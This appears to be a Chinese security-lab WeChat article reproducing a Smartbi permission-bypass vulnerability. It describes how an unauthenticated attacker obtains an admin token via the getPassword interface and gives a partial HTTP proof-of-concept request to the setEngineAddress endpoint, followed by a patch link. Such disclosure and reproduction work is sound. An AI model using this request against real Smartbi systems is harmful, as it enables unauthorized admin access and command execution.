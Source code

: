 #  Smartbi权限绕过漏洞

原创 弥天安全实验室  [ 弥天安全实验室 ](javascript:void\(0\);)

**弥天安全实验室** ![]()

微信号 gh_41292c8e5379

功能介绍 学海浩茫，予以风动，必降弥天之润！

____

___发表于_

收录于合集

#复现 43 个

#漏洞 70 个

#POC 30 个

#网络安全 56 个

  

  

网安引领时代，弥天点亮未来  

  
  

  

  



![]()  
 **0x00写在前面**  
  
 **本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**![]()  
 **0x01漏洞介绍**  

Smartbi是一款商业智能应用，提供了数据集成、分析、可视化等功能，帮助用户理解和使用他们的数据进行决策。

在Smartbi受影响版本中存在权限绕过问题，未授权的攻击者可以通过 RMI 的方式调用 getPassword
接口获取管理员token信息。获取管理员权限后，可进入后台实现任意命令执行，进而对目标系统造成破坏或篡改窃取敏感信息。

![]()  
 **0x02影响版本**  
  

version <= V10

  

  

![]()  
 **0x03漏洞复现**  
  

1.访问漏洞环境

![]()

2.对漏洞进行复现

 **   Poc **

  *   *   *   *   *   * 

    
    
    GET /smartbi/smartbix/api/monitor/setEngineAddress HTTP/1.1Host: User-Agent: Go-http-client/1.1Content-Length: 52Content-Type: application/x-www-form-urlencodedAccept-Encoding: gzip

漏洞复现

GET/POST请求，响应存在漏洞

![]()

前端显示  

![]()

3.x-poc测试（漏洞存在）

![]()

  

![]()  
 **0x04修复建议**  
  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

  * 

    
    
    https://www.smartbi.com.cn/patchinfo

  

  

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

![]()

  

知识分享完了

喜欢别忘了关注我们哦~

  

学海浩茫，予以风动，必降弥天之润！

  

   弥  天

安全实验室  

![]()

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

